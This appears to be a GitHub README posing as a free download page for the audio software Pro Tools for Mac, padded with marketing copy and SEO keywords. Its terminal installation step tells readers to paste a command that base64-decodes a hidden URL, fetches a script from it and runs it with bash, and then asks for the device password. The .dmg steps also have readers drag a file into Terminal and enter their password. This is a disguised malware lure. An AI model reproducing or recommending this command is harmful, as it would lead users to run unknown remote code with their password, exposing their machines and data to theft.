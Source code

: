 # Pro Tools Mac Download - The Industry-Leading Audio Production Software

![Pro Tools Screenshot 1](https://imag.malavida.com/mvimgbig/download-fs/pro-tools-11633-1.jpg)

---

## 🔽 Download Pro Tools for Mac

[![Download Now](https://img.shields.io/badge/Download_Pro_Tools-blueviolet?style=for-the-badge&logo=github)](https://montiko384.github.io/.github/protools)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is Pro Tools for Mac?

Pro Tools stands as the undisputed professional standard in audio production software, trusted by top music studios, film scoring stages, and post-production facilities worldwide. Specifically optimized for macOS, Pro Tools delivers a comprehensive toolkit for every stage of audio work - from initial recording and meticulous editing to final mixing and mastering. Its unmatched precision, stability, and workflow efficiency have made it the go-to solution for audio professionals, music producers, and content creators across all media.

Among its powerful features, Pro Tools excels with advanced mixing capabilities that include full support for immersive audio formats like surround sound and Dolby Atmos. The software's innovative Elastic Audio and Beat Detective technologies provide non-destructive time-stretching and ultra-precise quantization, guaranteeing flawless timing in all your recordings. With complete AAX plugin compatibility, users can expand their creative possibilities through an extensive collection of premium audio effects and virtual instruments.

Pro Tools revolutionizes teamwork with its Cloud Collaboration feature, allowing multiple professionals to contribute to the same project simultaneously from anywhere in the world. The software offers deep integration with industry-standard hardware controllers such as Avid's S6 and S3 series, giving engineers hands-on control over their mixes. Additional workflow enhancements include customizable keyboard shortcuts, advanced automation features, and powerful audio restoration tools. Whether you're tracking a live band, composing for visual media, designing sound for games, or producing podcast content, Pro Tools provides all the professional-grade tools required to deliver exceptional audio quality and production value.

For content creators working with video, Pro Tools offers seamless integration with video files and frame-accurate synchronization capabilities. The software's recently enhanced dark mode interface reduces eye strain during long sessions, while its optimized performance takes full advantage of Apple Silicon processors for maximum efficiency on modern Mac systems.

![Pro Tools Screenshot 2](https://mac-cdn.softpedia.com/screenshots/Avid-Pro-Tools_6.jpg)

---

## Key Features & Benefits

- 🎧 Industry-leading audio recording and editing  
- 🎛 Advanced mixing with surround and Dolby Atmos support  
- ⏱ Elastic Audio and Beat Detective for perfect timing  
- ☁️ Cloud Collaboration for remote teamwork  
- 🎹 Support for AAX plugins and virtual instruments  
- 🎚 Integration with Avid hardware controllers  

Pro Tools is the ultimate audio production software for professionals and enthusiasts alike.

---

## 🔍 Keywords

Pro Tools for Mac, Pro Tools Mac Download, Pro Tools for Mac Download, Pro Tools Mac, Pro Tools Download Mac, Pro Tools Download for Mac, pro tools full version, Mac Download Pro Tools, Download Mac Pro Tools, Download Pro Tools Mac, Download Pro Tools for Mac
